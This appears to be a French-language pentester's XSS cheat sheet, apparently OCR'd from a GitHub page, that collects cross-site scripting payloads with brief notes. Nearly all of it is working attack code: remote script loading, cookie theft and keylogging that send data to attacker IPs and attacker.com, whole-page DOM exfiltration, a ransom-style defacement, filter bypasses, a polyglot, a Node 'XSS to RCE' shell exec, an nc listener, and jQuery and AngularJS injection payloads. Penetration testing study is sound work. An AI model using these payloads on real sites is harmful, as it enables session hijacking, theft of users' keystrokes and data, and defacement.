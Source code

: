 
- https://github.com/payloadbox/xss-payload-list
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md

```html
<script class="xss">$('.xss').parents().eq(1).find('a').eq(1).click();$('[data-action=retweet]').click();alert('XSS in X')</script>
```

Load remote script

```html
<script src="http://192.168.45.128/xss.js"></script>
```

Bypasser le mot script filter

```html
<sscriptcript>alert('berty');</sscriptcript>
```

Send Cookie details to us: Session-Hijacking

```js
new Image().src = "http://192.168.75.137/xss.php?cookie="+ escape(document.cookie);
```

```js
fetch("http://192.168.45.128/xss.php?cookie=" + btoa(document.cookie));

<script>
fetch('http://target.com/endpoint.php')
.then(response => response.text())
.then(data => fetch('http://attacker.com/?data' + btoa(data)))
</script>
```


Rediriger l'utilisateur vers un autre site

```js
window.location.replace("https://otherwebsite.com");
```

Modifier la page actuel

```js
document.body.innerHTML = "<center><br><br><br><h1>Oh noez, your are haxed! Send bitcoins quick!</h1></center>";
```

Enregistreur de frappe | Key Logger

```js
document.onkeypress = function(c){ fetch("http://192.168.100.129/?k="+ String.fromCharCode(c.which)); }
document.onkeypress = function(e){ fetch('http://192.168.75.137/log?key=' + btoa(e.key) );}
```

HTML2Canvas

```js
fetch("http://192.168.100.129/?dom="+btoa(document.documentElement.outerHTML));
```

Recuperer le navigateur client

```js
fetch("http://192.168.75.137/?nav="+navigator.userAgent);
```

Polyglottes

```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('ErrorDipeua') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('Dipeua')//>\x3e
```

XSS => RCE

```js
var sys = require('sys');
var exec = require('child_process').exec;
exec("C:\\Windows\\System32\\cmd.exe", function(error, stdout, stderr){ sys.puts(stdout) });
exec("/bin/bash", function(error, stdout, stderr){ sys.puts(stdout) });
```

# DOM

```html
<iframe src="javascript:alert(document.domain)">

<img src=x onerror="alert(document.domain)">

"><img src=x onerror=prompt(document.domain);>

#"><img src=/ onerror=alert(document.cookie)>

<svg/onload="alert(document.domain)">

xss">< ! --><svg/onload=alert(document.domain)>

<noscript><p title="</noscript><img src=x onerro=alert(1)>">
```

```html
nc -nlvp 9001


</textarea><script>fetch('http://10.11.86.29:9001?cookie=' + btoa(document.cookie) );</script>
```

## DOM XSS dans jQuery

Si vous utilisez une bibliothèque JavaScript telle que jQuery, soyez attentif aux récepteurs susceptibles de modifier les éléments DOM de la page comme `attr()`.

```html
?returnUrl=javascript:alert(document.domain)
```

Un autre puits potentiel à surveiller est la fonction `$()` de sélection de jQuery, qui peut être utilisée pour injecter des objets malveillants dans le DOM.

similaire à celui-ci :

```js
$(window).on('hashchange', function() {
	var element = $(location.hash);
	element[0].scrollIntoView();
});
```

Pour exploiter cette vulnérabilité classique, vous devrez trouver un moyen de déclencher un `hashchange` événement sans interaction de l'utilisateur. L'une des méthodes les plus simples consiste à diffuser votre exploit via iframe :

```html
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```

## DOM XSS dans AngularJS

Lorsqu'un site utilise l'attribut `ng-app` sur un élément HTML, celui-ci est traité par AngularJS.

Dans ce cas, AngularJS exécute le JavaScript entre des accolades doubles, qui peuvent apparaître directement dans le code HTML ou à l'intérieur des attributs.

```html
{{$on.constructor('alert(1)')()}}
```


